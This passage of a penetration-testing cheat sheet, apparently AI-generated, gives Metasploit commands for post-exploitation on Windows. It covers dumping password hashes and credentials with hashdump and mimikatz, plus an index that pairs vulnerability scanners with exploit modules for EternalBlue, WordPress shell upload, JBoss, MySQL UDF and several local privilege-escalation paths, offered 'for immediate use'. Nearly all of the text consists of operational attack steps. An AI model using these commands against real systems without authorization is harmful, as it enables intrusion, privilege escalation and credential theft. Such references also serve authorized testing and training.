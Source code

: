 
## C) Handy Post‑Exploitation After SYSTEM

```text
# Hash dump (live)
use post/windows/gather/hashdump
set SESSION <id>
run

# LSA/SAM via builtin privs
use post/windows/gather/credentials/mimikatz
set SESSION <id>
run
```

---

## D) Quick Reference – Scanners vs Exploits (index)

- **MS17‑010** → `auxiliary/scanner/smb/smb_ms17_010` → `exploit/windows/smb/ms17_010_eternalblue`
    
- **WordPress** → `auxiliary/scanner/http/wordpress_scanner` → `exploit/unix/webapp/wp_admin_shell_upload`
    
- **JBoss** → `auxiliary/scanner/http/jboss_vulnscan` → `exploit/multi/http/jboss_maindeployer` / `.../jboss_deploymentfilerepository`
    
- **MySQL** → `auxiliary/scanner/mysql/*` → `exploit/multi/mysql/mysql_udf_payload`
    
- **Service perms** → `accesschk` → `exploit/windows/local/service_permissions`
    
- **Unquoted path** → `wmic ... pathname` → `exploit/windows/local/trusted_service_path`
    
- **AlwaysInstallElevated** → `reg query ...` → `exploit/windows/local/always_install_elevated`
    
- **SeImpersonate** → `whoami /priv` → `meterpreter getsystem` / `exploit/windows/local/ms16_075_reflection`
    
- **Missing hotfix** → `systeminfo`/`wmic qfe` → `post/multi/recon/local_exploit_suggester` → suggested local exploit
    

---

**Done.** This refactor pairs each **check** with its **Metasploit path** and a practical code block for immediate use.